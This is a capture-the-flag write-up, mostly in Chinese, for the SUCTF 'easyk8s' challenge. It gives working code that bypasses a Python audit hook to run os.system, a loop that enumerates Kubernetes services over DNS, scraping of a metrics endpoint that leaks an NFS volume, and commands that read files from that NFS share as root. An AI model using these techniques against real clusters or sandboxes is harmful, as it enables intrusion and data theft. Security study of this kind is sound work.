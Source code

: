 ### SUCTF - easyk8s

#### Python Audit Hook RCE

```
DEBUG=True  # open debug
import os,sys
op = print
def print(*args):
  t = sys._getframe(1).f_locals['audit_functions']
  t["os.system"]['ban']= False
  op(t)
  return op(*args)

os.system("ls") ## RCE 
```

当然这里也可以 _posixprocess.fork_exec 进行绕过

#### Kubernetes 信息泄漏 

https://gh-proxy.com/github.com/Esonhugh/k8spider/releases/download/v2.6.0-metric/k8spider_v2.6.0-metric_linux_amd64.tar.gz

下载新版本 k8spider 对付他，先枚举服务，直接枚举就失败， -vv 看报错可以知道，只有前几个 dns 请求正常处理了，后几个请求 全部 io timeout 

然而 dns 服务始终是正常的，所以可以猜测是 dns 服务被某些东西限制了。尝试缩小集群 server cidr 并且循环跑。

```
for i in $(seq 1 254); do ./k8spider all -c 10.43.$i.1/24 -i 20000 >> res ;done

cat res
{"Ip":"10.43.8.117","SvcDomain":"suctf-svc.default.svc.cluster.local.","SrvRecords":[{"Cname":"suctf-svc.default.svc.cluster.local.","Srv":[{"Target":"suctf-svc.default.svc.cluster.local.","Port":5000,"Priority":0,"Weight":100}]}]}
{"Ip":"10.43.109.180","SvcDomain":"metrics-server.kube-system.svc.cluster.local.","SrvRecords":[{"Cname":"metrics-server.kube-system.svc.cluster.local.","Srv":[{"Target":"metrics-server.kube-system.svc.cluster.local.","Port":443,"Priority":0,"Weight":100}]}]}
{"Ip":"10.43.116.179","SvcDomain":"kube-state-metrics.lens-metrics.svc.cluster.local.","SrvRecords":[{"Cname":"kube-state-metrics.lens-metrics.svc.cluster.local.","Srv":[{"Target":"kube-state-metrics.lens-metrics.svc.cluster.local.","Port":8080,"Priority":0,"Weight":100}]}]}
{"Ip":"10.43.140.10","SvcDomain":"nginx-ingress-controller.ingress-nginx.svc.cluster.local.","SrvRecords":[{"Cname":"nginx-ingress-controller.ingress-nginx.svc.cluster.local.","Srv":[{"Target":"nginx-ingress-controller.ingress-nginx.svc.cluster.local.","Port":80,"Priority":0,"Weight":50},{"Target":"nginx-ingress-controller.ingress-nginx.svc.cluster.local.","Port":443,"Priority":0,"Weight":50}]}]}
{"Ip":"10.43.225.93","SvcDomain":"istiod.istio-system.svc.cluster.local.","SrvRecords":[{"Cname":"istiod.istio-system.svc.cluster.local.","Srv":[{"Target":"istiod.istio-system.svc.cluster.local.","Port":15012,"Priority":0,"Weight":25},{"Target":"istiod.istio-system.svc.cluster.local.","Port":15010,"Priority":0,"Weight":25},{"Target":"istiod.istio-system.svc.cluster.local.","Port":15014,"Priority":0,"Weight":25},{"Target":"istiod.istio-system.svc.cluster.local.","Port":443,"Priority":0,"Weight":25}]}]}
```

有 server 也有服务 port

关注 kube-state-metrics.lens-metrics.svc.cluster.local 

这是个 metrics 服务，容器中有 curl，下载对应的 metrics 文本为文件

kube-state-metrics.lens-metrics.svc.cluster.local:8080/metrics

> 现在的 k8spider 可以帮助你分析这类 metrics 中的敏感信息，使得你可以极大可能把握集群整体状态。

#### 集群 NFS PV

在 metrics 信息中存在，敏感信息 nfs pv 配置。

> 发现这个 nfs 后利用的套路 k8slanparty 一模一样

```
kube_persistentvolume_info{persistentvolume="nfs-pv",storageclass="nfs-client",gce_persistent_disk_name="",ebs_volume_id="",azure_disk_name="",fc_wwids="",fc_lun="",fc_target_wwns="",iscsi_target_portal="",iscsi_iqn="",iscsi_lun="",iscsi_initiator_name="",nfs_server="0c09048b03-got17.cn-hangzhou.nas.aliyuncs.com",nfs_path="/nfs-root/",csi_driver="",csi_volume_handle="",local_path="",local_fs="",host_path="",host_path_type=""} 1
```

nfs 服务器为 0c09048b03-got17.cn-hangzhou.nas.aliyuncs.com，nfs 路径为 /nfs-root/

通过 socks5 代理后，尝试使用 nfs-cat 和 nfs-ls 进行访问 

即可得到 flag 在 nfs / 目录中

```
nfs-ls nfs://0c09048b03-got17.cn-hangzhou.nas.aliyuncs.com/?uid=0
nfs-cat nfs://0c09048b03-got17.cn-hangzhou.nas.aliyuncs.com/flag.txt?uid=0
```

或者上传一个 nfs client

例如  https://github.com/mubix/nfsclient/tree/main

但是他有点小 bug 没办法下载文件 需要修改为 https://github.com/mubix/nfsclient/blob/dadb0bf6caa10f02a617abf65c972e36389810cd/nfsclient.go#L121 为

```
f, err := os.OpenFile(filename, os.O_CREATE|os.O_WRONLY, 0777)
```

这样就不会有问题了

```
nfsc 0c09048b03-got17.cn-hangzhou.nas.aliyuncs.com:/ root:0:0 ls
+----------+-----+-----+----------+------+
| FILENAME | UID | GID | MODE     | SIZE |
+----------+-----+-----+----------+------+
| .        |   0 |   0 | 0x543c60 | 4096 |
| ..       |   0 |   0 | 0x543c60 | 4096 |
| flag.txt |   0 |   0 | 0x543c60 |   74 |
| nfs-root |   0 |   0 | 0x543c60 | 4096 |
+----------+-----+-----+----------+------+

nfsc 0c09048b03-got17.cn-hangzhou.nas.aliyuncs.com:/ root:0:0 down flag.txt 
cat flag.txt
```
